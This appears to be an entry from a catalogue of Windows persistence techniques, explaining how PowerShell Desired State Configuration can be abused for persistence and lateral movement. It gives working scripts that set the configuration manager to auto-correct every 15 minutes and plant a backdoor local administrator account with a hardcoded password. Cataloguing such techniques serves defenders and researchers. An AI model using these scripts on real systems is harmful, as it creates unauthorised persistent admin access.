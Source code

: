 ## Desired State Configuration <!-- general "title" of the persistence. Good to be unique. -->

<!-- separate sections by two empty lines -->
<!-- do not remove empty sections  -->

### Location: <!-- where to find it -->

N/A[^1]

### Classification: <!-- see "how it works" document. Empty lime must go next. -->

| Criteria         | Value                    |
| :--------------- | :----------------------- |
| Permissions      | Admin                    |
| Security context | System                   |
| Persistence type | Other                    |
| Code type        | Files ; Other ; Fileless |
| Launch type      | Automatic                |
| Impact           | Non-destructive[^2]      |
| OS Version       | All OS versions          |
| Dependencies     | OS only[^3]              |
| Toolset          | Scriptable               |

### Description:<!-- add two EOLs or two spaces at the end of line to create a line break -->

Desired State Configuration (DSC) is a feature in PowerShell 4.0 and above that helps administrators to automate the configuration of Windows and Linux operating systems (OSes).  
DSC provides a set of PowerShell language extensions, cmdlets and a process called declarative scripting.  
Using DSC administrators can ensure that a machine is set to a specific configuration and that if it deviates from the configuration to run scripts that will restore the desired configuration.  
After setting a DSC extension the DSC Local Configuration Manager monitors the configuration and if any deviation is found, it can be fixed with DSC scripts running with system privileges.  
DSC can be run on a local or remote host the user has admin rights on, so it can be used for lateral movement as well.

To abuse DSC for persistence the first the Local Configuration Manager configuration might need be changed to a configuration that is auto-corrected if there is a deviation, to continue configuration after reboot and the Frequency of monitoring and changing should be set to the desired value (min 15 minutes).
this can be done with the following script:

```
#Change DSC Local Configuration Manager
[DSCLocalConfigurationManager()]
Configuration SetDSCLMConfig
{
    node localhost
    {
        Settings
        {
            ActionAfterReboot = 'ContinueConfiguration' #Might be already set
            AllowModuleOverWrite = $true
            ConfigurationMode = 'ApplyAndAutoCorrect'
            ConfigurationModeFrequencyMins = 15 #Change this
        }

    }
}
SetDSCLMConfig -OutputPath C:\foo\bar | Out-Null

#Setting the configuration manager
Set-DscLocalConfigurationManager -Path C:\foo\bar -ComputerName localhost

```

After setting the Local Configuration Manager the next step is to create a malicious configuration that suit our needs. Here is an example of a configuration that adds a user to local administrators and creates a file.

```
    Configuration NotMalicious
    {
        Node localhost
        {
            Script ScriptExample
            {
                SetScript = {
                    $username = "ITadmin"
                    $password = ConvertTo-SecureString "password123!!" -AsPlainText -Force
                    $exist = Get-LocalUser -Name $username -ErrorAction SilentlyContinue
                    if($exist -eq $null)
                    {
                        New-LocalUser -Name $username -Password $password -FullName "Real IT admin"
                        Add-LocalGroupMember -Group "Administrators" -Member $username
                    }
                    Write-Output "$(whoami) just added ITadmin" > C:\foo\bar\dsc.txt
                }
                TestScript = {
                    return ($exist -ne $null)
                }
                GetScript = { @{ Result = ($exist -ne $null) } }
            }
    }
    NotMalicious -OutputPath C:\foo\bar | Out-Null

    #Start the configuration
    Start-DscConfiguration -Path "C:\foo\bar" -ComputerName localhost | Out-Null
```

### References: <!-- use <...> or [abc](https://...) syntax. Prepend with "- " when more than one -->

[DSC Tutorial](https://learn.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1)
[DSC Attack Framework](https://www.blackhat.com/docs/asia-16/materials/asia-16-Kazanciyan-DSCompromised-A-Windows-DSC-Attack-Framework.pdf)
[Azure DSC Persistence](https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
[DSC Community](https://github.com/dsccommunity)

### Credits: <!-- use [abc](https://...) syntax. Prepend with "- " when more than one. -->

- Entry added by [@Tamirye94](https://twitter.com/Tamirye94)

### See also: <!-- if refering to the same repo, use [Name](file.md) syntax. -->

<!-- prepend with "- " if more than one -->

### Remarks: <!-- see the usage in the "classification" section. Use only 1:1 references i.e. not refering to the same footnote from two different places -->

[^1]: Uses Microsoft DSC Local Configuration Manager.
[^2]: If a DSC configuration is already set, it will be overwritten.
[^3]: Requires WinRM to be enabled on the target machine
